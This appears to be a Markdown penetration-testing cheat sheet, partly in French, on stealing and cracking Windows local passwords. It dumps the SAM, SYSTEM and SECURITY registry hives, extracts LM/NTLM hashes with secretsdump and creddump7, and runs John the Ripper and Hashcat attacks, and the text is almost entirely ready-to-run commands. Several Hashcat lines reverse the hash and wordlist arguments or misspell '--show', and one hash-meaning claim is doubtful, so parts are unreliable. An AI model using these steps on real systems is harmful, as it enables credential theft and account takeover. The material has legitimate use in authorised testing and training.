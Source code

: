 ## 1. Dump the Windows files which contain the local password hashes (Windows registry files: SAM, SECURITY and SYSTEM):

Dump les fichiers de registre à l'aide de "REG SAVE" (nécessite les droits admin):
```
reg save HKLM\SAM C:\temp\sam
reg save HKLM\SYSTEM C:\temp\system 
reg save HKLM\SECURITY C:\temp\security
```



## 2. Extract the windows local password hashes:

***Using secretsdump***
```
secretsdump.py -sam sam -security security -system system LOCAL
```

***Using creddump7***
```
git clone https://github.com/Tib3rius/creddump7
pip3 install pycrypto
python3 creddump7/pwdump.py SYSTEM SAM
OR
python3 creddump7/pwdump.py SYSTEM SAM > hashes.txt
```

## 3. Hash formats :

Two types of hashes are present in SAM file
	- LM (old storage method of Windows)
	- NTLM


Examples of hash

	[username]::[LM]:[NTLM]:::

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
User:1000:aad3b435b51404eeaad3b435b51404ee:0b82e1dace77e29dd1de00896ba1c5bc:::
```

- If the LM hash has the value "aad3b435b51404eeaad3b435b51404ee" so the password is not storage in the LM hash
- If the NTLM hash has the value "31d6cfe0d16ae931b73c59d7e0c089c0" so the password is empty (potentially due to a desactivated account)
- If the NTLM hash has the value "b1b1d2ebf0bb5707135a9032caea49d3" so we have the same password



## 4. John the ripper - Crack the password hashes :

#### General commands and rules

	john [type of attack] --format=[hash of the format] 

	--rules:Single
	--rules:Wordlist
	--rules:Extra
	--rules:Jumbo (all the above)
	--rules:KoreLogic
	--rules:All (all the above)


#### Cracking methodology :

1. Verify the LM hashes:

You can beginning by a crack of the LM password, in the case of the some hash alues are different to :
```
"aad3b435b51404eeaad3b435b51404ee" -> not storage in LM hash
"31d6cfe0d16ae931b73c59d7e0c089c0" -> empty password
"b1b1d2ebf0bb5707135a9032caea49d3" -> we have the same password
````

2. Verify login=password
```
john --single --format=[LM|NTLM] hashes.txt --fork=4
```

3. Standards dictionnary attacks with[out] rules
```
john --wordlist=dictionary.txt --format=LM hashes.txt --fork=4
john --wordlist=dictionary.txt --format=LM hashes.txt --fork=4 --rules=KoreLogic
```

Be careful, the rules=all parameter is very long. With a lot of hashes, this operation will working during several days.

4. Show result:

The cracked hashes are located in the corresponding .pot file

	john --format=LM hashes.txt --show
	john --format=NTLM hashes.txt --show



## 5. Hashcat - Crack the password hashes :

#### General commands and rules
```			
hashcat -m <typeOfHash> -a <typeOfAttack> -o <outputFile> <hashesFile.txt> <dictionaryFile.txt>
```		

Advances attacks (option -a)
```
0 - Straight : It is the default attack which is also the dictionary attack
1 - Combination : This attack permits to combine several dictionaries. Example: With a wordlist of fruits and a second with color, we obtain a combined wordlist with combinations like : BananaRed, BananaGreen, AppleRed, AppleGreen
3 - Brute-forcing : Traditional Brute-forcing attack which will try each possible combination. Compatible with Masks-Attacks and Rules-Attacks
4 - Permutation : Attack which change the order of the letter for each word of the dictionary. Example with the password 123: 132, 213, 231, 312, 321
```

#### Cracking methodology :

1. Verify the LM hashes:

You can beginning by a crack of the LM password, in the case of the some hash alues are different to :
```
"aad3b435b51404eeaad3b435b51404ee" -> not storage in LM hash
"31d6cfe0d16ae931b73c59d7e0c089c0" -> empty password
"b1b1d2ebf0bb5707135a9032caea49d3" -> we have the same password
```

2. Verify login=password
```
➤ For LM hash :

• Generate the list of the login
cat [LIST_OF_HASH].txt | cut -d':' -f1 > [OUTPUT_LOGIN].txt

• Try login=password 
hashcat -m 3000 hash.txt [LOGIN].txt
```

```
➤ For NTLM hash :

• Generate the list of the login
cat [LIST_OF_HASH].txt | cut -d':' -f1 > [OUTPUT_LOGIN].txt

• Try login=password 
hashcat -m  1000 hash.txt [LOGIN].txt
```

3. Dictionnary attack
```
➤ For LM hash :
hashcat -m 3000 -a 0 [Dictionnary].txt [Hash].txt --force

➤ For NTLM hash:
hashcat -m 1000 -a 0 [Dictionnary].txt [Hash].txt --force
```

4. Dictionnary attack with rules

To see the existing rules attacks ls -l /usr/share/hashcat/rules/

```
➤ For LM hash :
hashcat -m 3000 -a 0 [Dictionnary].txt [Hash].txt  -r [Rules_path] --force

➤ For NTLM hash:
hashcat -m 1000 -a 0 [Dictionnary].txt [Hash].txt -r [Rules_path] --force
```

5. Show cracked/not cracked passwords
```
➤ For LM hash :
hashcat -m 3000 -a 0 [Dictionnary].txt [Hash].txt -show

➤ For NTLM hash:
hashcat -m 1000 -a 0 [Dictionnary].txt [Hash].txt -show
```
